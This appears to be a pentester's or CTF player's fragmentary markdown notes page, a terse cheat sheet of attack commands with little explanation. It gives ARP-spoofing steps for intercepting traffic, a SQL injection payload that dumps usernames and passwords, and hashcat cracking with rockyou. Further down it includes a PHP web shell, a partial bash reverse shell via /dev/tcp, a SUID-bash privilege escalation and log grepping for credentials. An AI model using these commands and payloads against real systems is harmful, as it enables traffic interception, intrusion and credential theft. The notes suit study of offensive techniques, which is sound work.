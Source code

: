 # (PART) Temporary Notes {-}

## MITM ARP Spoofing {-}

**ARP** is a protocol used to resolve network interface MAC addresses, this is used by computer to resolve host IP addresses to a mac address.
After performing an ARP run, hosts store the resoluting MAC addresse in a ARP cache table to avoid further useless ARP runs. If an Attacker is 
able to manipulate the ARP cache, he is also able to intercept traffic on a network, even a switched network.

Attacker steps:

1. Configure ip forwarding 
    ```bash
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ```
1. Run Arpspoof tool 
    ```bash
    arpspoof -i eth0 -t <target_ip> -r <address of webserver>
    ```

> [ ! ] NOTE: everything sniffing on this kind of attack can be checked with Wireshark




## Enumeration {-}


```bash
openssl s_client -connect 
```



### websites {-}

exploit-db.com  
gtfobins.github.io  
https://github.com/danielmiessler/SecLists
wrapper lsi base64
rosettacode.org/wiki/Execute_a_system_command
pentestmonkey.net
hashcat wiki
Chisel github for port forwarding
payloadsAllTheTings github
seccure python github -> encryption
crackstation
gtfobins.github.io
shankro github
cirt.net/passwords -> default credentials


> [ ! ] Note: /etc/hosts for virtual hosting when direct ip not allowed




## priviledge Escalation {-}

```bash
id
#result
adm


cd /var/logs
find \-group adm \-type f 2>/dev/null | grep -v "\.gz" | xargs grep -E -i "post"
```


## sounds {-}

audacity

bloodhound &< /dev/null &


upx brute para reducir la tailla del binario


```bash
    &>/dev/null -> for no output printing
    2>/dev/null -> for no stderr printing
```




```bash
10.10.10.96/users/'union select group_concat(username, : ,password) from users_gbw-- -

hashcat -m 10900 -a 0 hashes /usr/share/wordlists/rockyou.txt
hashid
```
> [ ! ] Note: ${IFS} or %20 for spaces

website:



when php disabled function are fully:

if putenv() o mail()


<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>

extentions for php

Todo

bash -i >& /dev/tcp

backup bck back old swp ~

# compile with go {-}
(pspy)

go build -ldflags "-s -w" .

chmod u+s /bin/bash

which curl
which wget

wget -qO- <ip>